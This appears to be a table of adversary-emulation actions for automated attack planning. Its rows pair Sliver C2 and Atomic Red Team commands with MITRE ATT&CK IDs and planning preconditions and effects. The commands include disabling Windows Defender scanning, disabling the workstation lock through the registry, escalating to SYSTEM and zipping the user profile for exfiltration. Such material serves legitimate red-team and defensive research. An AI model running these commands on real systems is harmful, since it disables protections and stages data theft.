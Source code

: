| 2e8f1a9c-0b5e-4a7c-b6d4-9a8b2d3c5f1e | Create Directory | \['T1106'\] | Sliver | \['windows', 'linux'\] | \['Persistence'\] | \['File System Permissions Modification'\] | The `mkdir` command creates a new directory on the target system. | {'executor': 'Sliver Executor', 'command': 'mkdir (#{remote_path},#{SessionID})'} | {'remote_path': {'description': 'Full path of the directory to create'}, 'SessionID': {'description': 'The session ID of the active Sliver connection.'}} | \[{'operator': 'or', 'operands': \['(os_windows ?target - host)', '(os_linux ?target - host)'\]}, '(sliver_session ?executorID - executor ?target - host)'\] | \['(dir_exists ?path - path ?dir - dir ?target - host)'\] |
| 41410c60-614d-4b9d-b66e-b0192dd9c597 | Compress Data for Exfiltration With PowerShell | \['T1560'\] | ART | \['windows'\] | \['Collection'\] | \['Archive Collected Data'\] | An adversary may compress data (e.g., sensitive documents) that is collected prior to exfiltration.<br>When the test completes you should find the files from the $env:USERPROFILE directory compressed in a file called T1560-data-ps.zip in the $env:USERPROFILE directory <br> | {'executor': 'Powershell Executor', 'command': 'dir #{input_file} -Recurse | Compress-Archive -DestinationPath #{output_file}\n'} | {'input_file': {'description': 'Path that should be compressed into our output file', 'type': 'path', 'default': '$env:USERPROFILE'}, 'output_file': {'description': 'Path where resulting compressed data should be placed', 'type': 'path', 'default': '$env:USERPROFILE\\T1560-data-ps.zip'}} | \['(os_windows ?target - host)', '(powershell ?executor - executor ?target - host)', '(dir_exists ?input_file - path ?dir - dir ?target - host)'\] | \['(dir_data_saved ?dir - dir ?file - file)', '(file_exists ?output_file - path ?file - file ?target - host)', '(zip_file ?file - file)'\] |
| 5a1d2b9f-4e7f-8a4d-3f7a-6c2e5e9f9f7c | Privilege Escalation | \['T1134'\] | Sliver | \['windows'\] | \['Privilege Escalation'\] | \['Access Token Manipulation'\] | The `get_system` command attempts to gain SYSTEM-level privileges. | {'executor': 'Sliver Executor', 'command': 'get_system (#{hosting_process},#{config},#{SessionID})'} | {'hosting_process': {'description': 'Target process ID or name for privilege escalation'}, 'config': {'description': 'Configuration options for escalation method', 'default': 'Service'}, 'SessionID': {'description': 'The session ID of the active Sliver connection.'}} | \['(os_windows ?target - host)', '(sliver_session ?executorID - executor ?target - host)'\] | \['(elevated_executor ?executorID - executor)'\] |
| 7bfba376-cebc-4094-b1e6-5103b2e83c4e | Execute PowerShell Command | \['T1059.001'\] | Sliver | \['windows'\] | \['Execution'\] | \['Command and Scripting Interpreter: PowerShell\n'\] | The `powershell.exe` command executes a PowerShell script or command on the remote host. This command is useful for performing system monitoring tasks or gathering information about the processes running on a remote machine. | {'executor': 'Sliver Executor', 'command': 'powershell(#{SessionID},#{Commands})'} | {'SessionID': {'description': 'The session ID of the active Sliver connection.'}} | \['(os_windows ?t - host)', '(sliver_session ?s1 - executor ?t - host)'\] | \['(powershell ?s2 - executor ?t - host)', {'operator': 'When', 'params': {'condition': '(elevated_executor ?s1 - executor)', 'effect': '(elevated_executor ?s2 - executor)'}}\] |
| 6b8df440-51ec-4d53-bf83-899591c9b5d7 | Tamper with Windows Defender ATP PowerShell | \['T1562.001'\] | ART | \['windows'\] | \['Defense Evasion'\] | \['Impair Defenses: Disable or Modify Tools'\] | Attempting to disable scheduled scanning and other parts of windows defender atp. Upon execution Virus and Threat Protection will show as disabled<br>in Windows settings.<br> | {'executor': 'Elevated Powershell Executor', 'command': 'Set-MpPreference -DisableRealtimeMonitoring 1\nSet-MpPreference -DisableBehaviorMonitoring 1\nSet-MpPreference -DisableScriptScanning 1\nSet-MpPreference -DisableBlockAtFirstSeen 1\n'} | None | \['(powershell ?executor - executor ?target - host)', '(elevated_executor ?executor - executor)', '(os_windows ?target - host)'\] | \['(virus_and_threat_protection_disabled ?target - host)'\] |
| 2074d817-7819-401b-b552-1045672f77f3 | Execute Command (cmd.exe) | \['T1059.003'\] | Sliver | \['windows'\] | \['Execution'\] | \['Command and Scripting Interpreter: Windows Command Shell\n'\] | The `cmd.exe` command executes a Windows command. It runs the specified command on the remote host and returns the result. This command is useful for performing various system tasks. | {'executor': 'Sliver Executor', 'command': 'cmd(#{SessionID},#{Commands})'} | {'SessionID': {'description': 'The session ID of the active Sliver connection.'}} | \['(os_windows ?t - host)', '(sliver_session ?s1 - executor ?t - host)'\] | \['(command_prompt ?s2 - executor ?t - host)', {'operator': 'When', 'params': {'condition': '(elevated_executor ?s1 - executor)', 'effect': '(elevated_executor ?s2 - executor)'}}\] |
| 3dacb0d2-46ee-4c27-ac1b-f9886bf91a56 | Disable Windows Lock Workstation Feature | \['T1112'\] | ART | \['windows'\] | \['Defense Evasion'\] | \['Modify Registry'\] | Modify the registry of the currently logged in user using reg.exe via cmd console to disable the windows Lock workstation feature.<br>See how ransomware abuses this technique- https://www.bleepingcomputer.com/news/security/in-dev-ransomware-forces-you-do-to-survey-before-unlocking-computer/<br> | {'executor': 'Elevated Command Prompt Executor', 'command': 'reg add "HKEY_CURRENT_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System" /v DisableLockWorkstation /t REG_DWORD /d 1 /f\n'} | None | \['(command_prompt ?executor - executor ?target - host)', '(elevated_executor ?executor - executor)', '(os_windows ?target - host)'\] | \['(lock_workstation_disabled ?target - host)'\] |